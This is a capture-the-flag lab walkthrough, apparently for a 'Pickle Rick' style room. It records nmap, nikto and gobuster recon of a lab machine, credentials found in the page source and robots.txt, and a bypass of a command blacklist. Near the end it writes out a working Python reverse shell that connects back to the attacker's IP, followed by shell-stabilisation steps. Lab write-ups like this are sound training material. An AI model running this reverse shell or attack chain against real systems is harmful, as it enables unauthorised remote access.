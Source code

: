 target machine IP address:  10.10.126.11 
kali IP address: 10.10.159.125

# Recon 
`nmap -sV(service) -sC(script) -oN(output) file  10.10.126.11` 
	![](Pasted%20image%2020241112190313.png)
`nikto -h http://10.10.126.11 | tee nikto.log (output)`
	![](Pasted%20image%2020241112190816.png)
`gobuster dir -u http://10.10.126.11 -w /root/Desktop/wordlists/dirb/big.txt -x php,sh,txt,cgi,html,js,css,py | tee gobuster.log(output)`
	![](Pasted%20image%2020241112191526.png)

# Task 1
- page source revereals username: R1ckRul3s
	![](Pasted%20image%2020241112191833.png)

- `robots.txt` reveals: Wubbalubbadubdub
	![](Pasted%20image%2020241112192130.png)

- `login.php` reveals: here we will login with the above discovered info
	![](Pasted%20image%2020241112192340.png)![](Pasted%20image%2020241112192507.png)

- `cat` command is not allowed so we can make use of ``grep` command
	![](Pasted%20image%2020241112194408.png)
	
- using `grep -R .` to display info of all files contained in the dir
	![](Pasted%20image%2020241112194627.png)
	![](Pasted%20image%2020241112194913.png)
- we notice that a lot of commands are blacklisted 
	![](Pasted%20image%2020241113145954.png)
- we can use a reverse shell (pentestmonkey Pyhton rev.shell)
  ![](Pasted%20image%2020241113150553.png)![](Pasted%20image%2020241113150433.png)
  modifying command:
  ```
  python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.159.125",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
  ```
  ![](Pasted%20image%2020241113152445.png)
  - *we will stabilize the shell using below technique:*
	```
	# Step 1: Spawn a TTY shell
	python3 -c 'import pty; pty.spawn("/bin/bash")'
	
	# Step 2: Set environment variables
	export TERM=xterm
		
	# Step 3: Background the shell
	Ctrl + Z
	
	# Step 4: Configure local terminal settings
	stty raw -echo; fg
	```
![](Pasted%20image%2020241113155919.png)